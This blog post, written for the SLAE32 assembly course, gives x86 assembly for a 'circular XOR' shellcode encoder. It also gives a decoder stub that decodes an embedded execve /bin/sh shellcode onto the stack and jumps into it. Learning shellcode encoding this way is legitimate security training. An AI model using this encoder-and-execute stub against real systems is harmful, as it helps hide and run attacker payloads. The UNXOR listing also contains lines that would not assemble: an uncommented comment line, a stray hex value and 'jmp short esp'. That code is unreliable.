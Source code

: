 ```yaml
---
layout: post
title:  SLAE32 Assignment 4 - custom encoder
excerpt: asm code for my encoder
---
```

this assignment has been splitted in 2 (actually 4) exercises:
1. xor.py takes a shellcode, xor it with given starting value, then xor each bytes with previous original one plus something she eventually can xor it with all valid ascii values (0,255) and inc from 1 to 9 to find valid pairing, kept in mind that both plain and encoded shellcode cannot contain null bytes
2. xor.asm does the same, in asm, but doesn't says you have to "null terminate" (read xor.py to understand). also cannot print shellcode in hex but prints it as code: you have to pipe to xxd to get the value
3. unxor.py does the reverse: takes encoded shellcode, inc and first xor and gives back the plain shellcode
4. unxor.asm does the same, in asm, but also executes the shellcode

i did the steps also in python3 to confirm that everything's ok: it's not THAT easy to debug an idea using asm :)

used shellcode is a slightly modified version of execve-stack. i remove .data section and all functions to have a straight code.
you can read it at 04_execve_stack.asm at https://github.com/gulyslae/SLAE32
python code has been committed to github as well

## XOR
    ; name        : circularxor-xor
    ; author      : Sandro "guly" Zaccarini SLAE-1037
    ; purpose     : this code has been written for SLAE32 assignment 4
    ; license     : CC-BY-NC-SA
    ; description : the encoder i choose is a "circular xor". given a starting value used
    ;               for the first byte, every byte xores the one that preceeds.
    ;               to avoid null bytes, because for example //bin/sh has two equals
    ;               consecutive bytes that if xored will lead to 0x00, i choose to
    ;               add 0x1 every "previous byte",
    ;               paying attention to don't have any null case (ex: 0x4142 will lead to
    ;               null bytes, i should've add 0x2).
    ;
    ; having 0x414345 and a starting value of 0x26 as example, we will have:
    ; 0x41^0x26 => 0x67
    ; (0x43+0x1)^0x41 => 0x05
    ; (0x45+0x1)^0x43 => 0x05
    ; my encoded shellcode will then be 0x670505
    ; decoding stub will xor the first byte with a known value to have the first right
    ; value then inc it to xor the second one, to have the right second back, and so on
    ;
    ; every shellcode will terminate with an added byte, that is the real last one add 1
    ; to have a 0x00 when xored.
    ; for example, a shellcode like 0x414345 will be writte in .data as 0x41434546
    ;
    ; please note that i don't need to make this code nullbyte proof because it will be
    ; run just locally ; but i'm doing it 0x00 free as extra-mile
    
      global _start
    
      section .text
    
      exit:
    xor eax,eax
    mov al,0x1
    int 0x80
    
      _start:
    
    ; place in bl our xor starting value
    mov bl,0xa1
    jmp short call_decoder
    
      decoder:
    pop esi
    ; al will hold current right value
    mov al, byte [esi]
    ; i need to copy it also to bh to have it ready for next xor
    mov bh,al
    ; first al is hardcoded of course, now al will
    xor al, bl ; first one is hardcoded
    
    ; make room for the shellcode, current is like 0x1f so more than enough to sub 0x3f
    sub esp,0x3f
    ; move first byte to esp
    mov [esp+ecx],al
    
      decode:
    ; copy current right to bl
    mov bl,bh
    ; add 1 to bl because during xor i did this
    inc bl
    ; go to next byte
    inc esi
    ; and add 1 to ecx to write to right position in the stack
    inc ecx
    ; al will hold current right value
    mov al, byte [esi]
    ; i need to copy it also to bh to have it ready for next xor
    mov bh,al
    ; xor current with previous+1
    xor al, bl
    ; copy the right value on the right position in the stack
    mov [esp+ecx],al
    
    ; because i placed two consecutive values here (actually prev+0x1), al will be 0x00
    ; and because nobody touched edx, dl is 0x00 too
    cmp al,dl
    ;call trap
    je write_shellcode
    jmp short decode
    
      call_decoder:
    call decoder
    plainShellcode: db 0x31,0xc0,0x50,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x50,0x89,0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0x31,0xc0,0xb0,0x01,0xcd,0x80
    mlen equ $-plainShellcode
    
      write_shellcode:
    nop
    nop
    xor eax,eax
    xor ebx,ebx
    xor edx,edx
    
    mov ecx,esp
    ; write id
    mov al, 0x4
    ; write to sdout
    mov bl, 0x1
    ; shellcode len, hardcoded
    ;mov dl, 0x20
    mov dl,mlen
    ; do it
    int 0x80
    ; put in ecx 4 bytes of my shellcode
    
    call exit


## UNXOR
    ; name        : circularxor-xor
    ; author      : Sandro "guly" Zaccarini SLAE-1037
    ; purpose     : this code has been written for SLAE32 assignment 4
    ; license     : CC-BY-NC-SA
    ; description : the encoder i choose is a "circular xor". given a starting value used
    ;               for the first byte, every byte xores the one that preceeds.
    ;               to avoid null bytes, because for example //bin/sh has two equals
    ;               consecutive bytes that if xored will lead to 0x00, i choose to
    ;               add 0x1 every "previous byte",paying attention to don't have any null
    ;               case (ex: 0x4142 will lead to null bytes).
    ;
    ; having 0x414345 and a starting value of 0x26 as example, we will have:
    ; 0x41^0x26 => 0x67
    ; (0x43+0x1)^0x41 => 0x05
    ; (0x45+0x1)^0x43 => 0x05
    ; my encoded shellcode will then be 0x670505
    ; decoding stub will xor the first byte with a known value to have the first right
    ; value, then inc it to xor the second one, to have the right second back, and so on
    ;
    ; every shellcode will terminate with an added byte, that is the real last one add 1
    ; to have a 0x00 when xored.
    ; for example, a shellcode like 0x414345 will be writte in .data as
    0x41434546
    ;
    ; please note that i don't need to make this code nullbyte proof because it will be
    ; runt just locally ; but i'm doing it 0x00 free as extra-mile
    
      global _start
    
      section .text
      _start:
    
    ; place in bl our xor starting value
    mov bl,0xa1
    jmp short call_decoder
    
      decoder:
    pop esi
    ; al will hold current right value
    mov al, byte [esi]
    ; xor it
    xor al, bl
    
    ; make room for the shellcode, current is like 0x1f so more than enough to sub 0x3f
    sub esp,0x3f
    ; move first byte to esp
    mov [esp+ecx],al
    
      decode:
    ; copy current right to bl
    mov bl,al
    ; add 1 to bl because during xor i did this
    inc bl
    ; go to next byte
    inc esi
    ; and add 1 to ecx to write to right position in the stack
    inc ecx
    ; al will hold current right value
    mov al, byte [esi]
    ; xor current with previous+1
    xor al, bl
    ; copy the right value on the right position in the stack
    mov [esp+ecx],al
    
    ; i know dl is 0x00 because nobody used it, as soon as al is 0x00 too
    jmp to our shellcode
    
    cmp al,dl
    je call_shellcode
    jmp short decode
    
      call_decoder:
    call decoder
    Shellcode: db 0x90,0xf2,0x91,0x39,0x46,0x1f,0x43,0x1c,0x01,0x46,0x52,0x0a,0x04,0xe6,0x69,0xb4,0xd8,0x68,0xb0,0xdd,0x6b,0x52,0xba,0xc1,0x4e,0xb0,0xf2,0x71,0xb0,0xcf,0x4e,0x81
    
      call_shellcode:
    jmp short esp


*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
